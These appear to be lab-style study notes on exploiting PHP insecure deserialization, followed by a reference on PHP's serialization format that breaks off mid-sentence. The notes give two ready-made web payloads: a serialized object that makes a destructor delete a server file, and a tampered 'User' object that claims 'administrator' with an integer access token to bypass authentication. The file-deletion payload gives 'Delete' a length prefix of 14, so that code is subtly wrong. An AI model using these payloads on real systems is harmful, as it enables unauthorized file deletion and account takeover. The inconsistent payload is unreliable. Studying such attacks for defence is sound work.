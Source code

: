 Consider that we were able to retrieve the source of a php file by appending `~` in our request and extracted the below:
```
    function __destruct() {
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
```
We could delete files by creating an object and sending in a valid parameter:
```
O:14:"Delete":1:{s:14:"lock_file_path";s:23:"/home/shrek/payslip.txt";}
```

A basic privilege escalation:
`O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"mo9iwmmkmyv7opm4fmdjy4e8brusnvey";}`
Change to:
`O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}`

Objects are serialized as:  
`O:<i>:"<s>":<i>:{<properties>}`  
where the first `<i>` is an integer representing the string length of `<s>`, and `<s>` is the fully qualified class name (class name prepended with full namespace). The second `<i>` is an integer representing the number of object properties. `<properties>` are zero or more serialized name value pairs:  

Booleans are serialized as:  
`b:<i>;`  
where `<i>` is an integer with a value of either 0 (false) or 1 (true).  

Integers are serialized as:  
`i:<i>;`  
where `<i>` is the integer value.  

Floats are serialized as (with d meaning double):  
`d:<f>;`  
where `<f>` is the float value.  

Strings are serialized as:  
`s:<i>:"<s>";`  
where `<i>` is an integer representing the string length of `<s>`, and `<s>` is the string value.  

Special types:  
null is simply serialized as:  
`N;`  

Arrays are serialized as:  
`a:<i>:{<elements>}`  
where `<i>` is an integer representing the number of elements in the array, and `<elements>` zero or more serialized key value pairs:  
`<key><value>`  
where `<key>` represents a serialized scalar type, and `<value>` any value that is serializable.  
  
`<name><value>`  
where `<name>` is a serialized string representing the property name, and `<value>` any value that is serializable.  
There's a catch with `<name>` though:  
`<name>` is represented as  
`s:<i>:"<s>";`  
where `<i>` is an integer representing the string length of `<s>`. But the values of `<s>` differs per visibility of properties:  

